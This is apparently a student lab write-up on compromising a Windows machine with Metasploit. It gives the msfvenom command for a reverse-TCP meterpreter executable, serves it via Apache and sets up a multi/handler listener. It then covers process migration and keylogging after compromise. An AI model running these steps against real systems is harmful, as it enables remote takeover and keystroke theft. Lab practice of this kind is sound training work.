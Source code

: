 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

## OUTPUT
![image](https://github.com/user-attachments/assets/8f48f7b9-3c4f-44f2-9b46-2d9ae60c46e5)

Create a malicious executable file fun.exe using msfvenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT
![image](https://github.com/user-attachments/assets/de2a9fd8-0767-414b-b4ae-9bcf2932651a)

copy the fun.exe into the apache /var/www/html folde

## OUTPUT

![image](https://github.com/user-attachments/assets/f4c9b729-21dd-43e3-8e03-d26fc72e9993)
Start apache server sudo systemctl apache2 start

## OUTPUT
![image](https://github.com/user-attachments/assets/59d6203d-b7d1-4b3c-b2cd-5c3f782bdf6c)
Check the status of apache2

## OUTPUT
![image](https://github.com/user-attachments/assets/4af08e71-b9c5-4bb4-b7bd-a6d49b5091b7)

Invoke msfconsole:

## OUTPUT:
![image](https://github.com/user-attachments/assets/b49acee5-e61d-48bc-9ddd-329268c5fd1f)
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
## OUTPUT:
![image](https://github.com/user-attachments/assets/e30f7396-8087-4a2a-8699-0d683795d21b)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
## OUTPUT:

![image](https://github.com/user-attachments/assets/cd16d1bb-43ac-43f2-838a-d281c41af67f)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads. Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
## OUTPUT

![image](https://github.com/user-attachments/assets/3178f551-3dcf-45e1-a28a-1c4332c17c22)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
## OUTPUT
![image](https://github.com/user-attachments/assets/38cc3fdd-eabd-4576-a0d6-18db3edf24af)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
## OUTPUT
![image](https://github.com/user-attachments/assets/ee382543-6620-4616-91f8-067cfd625821)

keyscan_dump Shows the keystrokes captured so far
## OUTPUT:
![image](https://github.com/user-attachments/assets/d5a302db-bad5-4f70-823f-cca395acc7d2)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
